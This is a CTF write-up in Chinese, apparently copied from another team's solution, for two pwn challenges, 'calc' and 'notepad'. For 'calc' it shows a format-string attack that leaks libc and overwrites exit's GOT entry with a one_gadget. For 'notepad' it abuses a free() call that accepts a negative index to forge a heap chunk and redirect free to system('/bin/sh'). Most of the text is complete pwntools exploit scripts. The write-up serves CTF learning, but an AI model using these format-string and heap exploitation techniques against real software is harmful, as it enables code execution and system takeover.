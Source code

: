为了方便先把北航大佬的write up拉下来，以后有空进行修改



# calc

程序是个模拟计算器，然后是个递归调用  
玩了好久没找到漏洞点  
然后就一个一个玩，在+的函数中发现了一个很好玩的函数,0x400C86  
有一句:  
`*(_QWORD *)(a1 + 8 * (*(unsigned __int8 *)(a1 + 0x948) + 4LL)) = *(_QWORD *)(a1 + 0x938);`  
这个
测试了这个代码发现有漏洞  
比如输入`++++++1+2`  
中途会把1放在bss段的那个数据区,并且位置和它递归的层数有关，相当于一个index  
相当于是一个数据存放的中转区  
观察一下附近的数据，发现有个`result: %lld\n`  
发现是0x400FF6中的  
`return printf((const char *)(a1 + 0x120), *(_QWORD *)(a1 + 0x938));`  
构思了一下，如果我们的`+`号足够多，就可以更改这个字符串的内容  
然后打印的是结果，于是就可以构造类似于  
`printf("%s",got_addr)`  
`printf("%n",got_addr)`  
这种payload，只要结果是got的地址就行了  
感觉这题出的非常好玩  
下面是payload,改掉exit_got为one_gadget就行了:  

```python  
from pwn import *
import sys
if len(sys.argv) < 2:
	debug = True
else:
	debug = False

if debug:
	p = process("./calc")
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	elf = ELF("./calc")
else:
	p = remote(sys.argv[1],sys.argv[2])
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	elf = ELF("./calc")
	

def calcu(buf,conti = True):
	p.sendlineafter("Your input:\n",buf)

def conti(conti = True):
	if conti:
		p.sendafter("Y:N\n","Y")
	else:
		p.sendafter("Y:N\n","N")
	
def debugf():
	gdb.attach(p,"b *0x400920\nb printf")

def sendpayload(p1,write_addr):
	base = 0x6020c0
	target = 0x6021c0
	number = (target-base)/8
	payload = "-" * number
	res = 0
	while p1[:8] != "":
		par1 = u64(p1[:8].ljust(8,"\x00"))
		payload += str(par1) + "+"
		res += par1
		p1 = p1[8:]
	payload += str(write_addr - res)
	calcu(payload)

def change_exit():
	one_gadget = libc.address + 0xf1147
	log.success("one_gadget:"+hex(one_gadget))
	exit_got = elf.got["exit"]
	#debugf()
	for i in range(8):
		number = (one_gadget >> (i*8)) & 0xff
		if number == 0:
			payload = "%1$hhn"
		else:
			payload = "%{number}c%1$hhn".format(number=number)
		#payload = "%1c%1$n"
		sendpayload(payload,exit_got+i)
		if i != 7:
			conti()
		else:
			conti(False)

context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
base = 0x6020c0
target = 0x6021c0
number = (target-base)/8
p1 = u64("%s".ljust(8,"\x00")) 
payload = "-"*number + str(p1) + "+" + str(elf.got["puts"]-p1)
calcu(payload)
#print p.recv(6)
puts_addr = u64(p.recvuntil("continue")[:6].ljust(8,"\x00"))
libc.address = puts_addr - libc.symbols["puts"]
log.success("libc_base:"+hex(libc.address))
conti()
change_exit()
p.interactive()
```

# notepad
这个题看了很久发现没有漏洞,没有UAF之类的  
secret算法中,因为是个密码学选手,QAQ  
大概看了秘钥长度为8,是个能加密解密的,肯定是块加密,DES没跑了  
简单调试验证了下是个DES  
因为第一天给过提示，`key maybe the key`  
猜想是不是因为加密造成了堆溢出之类的,发现没有(以为长度不为8的倍数会有问题，检查了半天发现做了padding,还是个PKCS5,tql)  
看了半天发现只有free的时候没有check index是否是负数  
联想`key maybe the key`,感觉是不是可以在KEY上伪造堆块头部，然后free掉，造成free任意地址堆块  
在调试的时候发现DES KEY存的很奇怪,下标故意加了个1,感觉了一下好像是用来存储标志的  
因为这个题存放的时候是chunk_addr,inuse,size  
所以最后一位放1,前面写地址就行了  
前面写地址的时候还得注意找末尾是\x00的地址,分配多个堆块找到\x00对应的bss_addr,好像是20左右,具体看payload  
然后free掉DES KEY位置的堆块,再 malloc 一个堆块  
就可以达到修改 globle_heap 中的堆块地址了  
改为got_addr,先leak再写入,free -> system,再free一个内容是"/bin/sh"的堆块,getshell  
利用代码如下:  

```python
from pwn import *
import sys
if len(sys.argv) < 2:
	debug = True
else:
	debug = False

if debug:
	p = process("./notepad")
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	elf = ELF("./notepad")
else:
	p = remote(sys.argv[1],sys.argv[2])
	libc = ELF("libc.so.6")
	elf = ELF("./notepad")

def add(size,content):
	p.sendlineafter(">> ","1")
	p.sendlineafter("Size: ",str(size))
	p.sendafter("Data: ",content)

def edit(index,size,content):
	p.sendlineafter(">> ","2")
	p.sendlineafter("Index: ",str(index))
	p.sendlineafter("Size: ",str(size))
	p.sendafter("Data: ",content)

def show(index):
	p.sendlineafter(">> ","3")
	p.sendlineafter("Index: ",str(index))

def free(index):
	p.sendlineafter(">> ","4")
	p.sendlineafter("Index: ",str(index))

def set_key(key):
	p.sendlineafter(">> ","5")
	p.sendlineafter(">> ","1")
	p.sendafter("Key: ",key)

def encrypt(index):
	p.sendlineafter(">> ","5")
	p.sendlineafter(">> ","2")
	p.sendlineafter("Index: ",str(index))
	
def decrypt(index):
	p.sendlineafter(">> ","5")
	p.sendlineafter(">> ","3")
	p.sendlineafter("Index: ",str(index))
	
def debugf():
	gdb.attach(p,"b *0x0000000000402077\nb free\nb *0x402471")

context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
size = 0x61
for i in range(20):
	add(size,(chr(ord("a")+i))*size)
set_key("\x50\x60".ljust(7,"\x00")+"\x01")
target = 0x6040E0
ori = 0x604E80
index = -151 + 5
debugf()
#print index
free(index)
add(size-0x10,"a"*(size-0x10))
payload = p64(elf.got["puts"]) + p64(1) + p64(0x51)
#debugf()
edit(20,len(payload),payload)
show(16)
puts_addr = u64(p.recv(6).ljust(8,"\x00"))
libc.address = puts_addr - libc.symbols["puts"]
log.success("libc_base:"+hex(libc.address))
payload = p64(elf.got["free"]) + p64(1) + p64(0x51)
edit(20,len(payload),payload)
payload = p64(libc.symbols["system"])
edit(16,len(payload),payload)
edit(0,8,"/bin/sh\x00")
free(0)
p.interactive()
```
